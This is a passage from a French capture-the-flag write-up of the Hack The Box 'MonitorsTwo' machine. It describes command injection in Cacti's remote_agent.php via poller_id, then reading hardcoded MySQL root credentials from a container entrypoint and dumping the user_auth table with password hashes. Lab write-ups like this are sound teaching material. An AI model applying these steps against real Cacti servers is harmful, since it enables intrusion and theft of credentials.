 Le script est assez simple :

Il va tenter de faire un brute-force sur l'host_id et le local_data_ids via le fichier /remote_agent.php.

Ce sont des ids qui sont très facilement devinables. Ensuite, la variable poller_id est vulnérable à une RCE, tout simplement en terminant une commande et en commençant une autre...

## Mouvement latéral
### Docker escape ?

Une fois sur la machine, on se rend vite compte via linpeas (ou même juste en faisant un ls) qu'on est dans docker. L'idée sera donc de s'en échapper.

Ce qu'on peut penser en premier c'est que vu que le binaire capsh est présent, il y ait des capacités qui nous permettent de nous échapper. Seulement, ce n'est pas le cas.

La seconde idée est tout simplement de lire le fichier entrypoint.sh :

```bash
cat /entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

On voit qu'il y a les mots de passe de base de mysql.

On peut se connecter et voir s'il y a des informations en plus, par exemple dans la table user_auth.

```bash
www-data@50bca5e748b0:/var/www/html$ mysql --host=db --user=root --password=root
<w/html$ mysql --host=db --user=root --password=root
USE cacti;
SELECT * FROM user_auth;
exit;
ERROR 1064 (42000) at line 3: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'exit' at line 1
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_trees    policy_hosts        policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      on      on      on      2       1       1       1       1       on      -1      -1 -1               0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1      -1              0       0       0
```